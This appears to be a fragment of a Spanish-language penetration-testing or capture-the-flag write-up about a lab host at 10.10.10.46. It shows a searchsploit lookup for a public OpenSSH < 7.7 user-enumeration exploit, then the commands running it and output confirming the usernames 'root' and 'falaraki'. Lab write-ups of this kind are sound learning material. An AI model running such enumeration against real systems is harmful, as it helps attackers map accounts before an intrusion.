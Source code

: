 
---
**ENUMERACIÓN DE USUARIOS**

---
**EXPLOIT**
```ruby
❯ searchsploit ssh user enumeration
OpenSSH < 7.7 - User Enumeration (2)     |linux/remote/45939.py
```

**EJECUCIÓN**
```python
❯ python2 45939.py 10.10.10.46 root 2>/dev/null
[+] root is a valid username

❯ python2 45939.py 10.10.10.46 falaraki 2>/dev/null
[+] falaraki is a valid username
```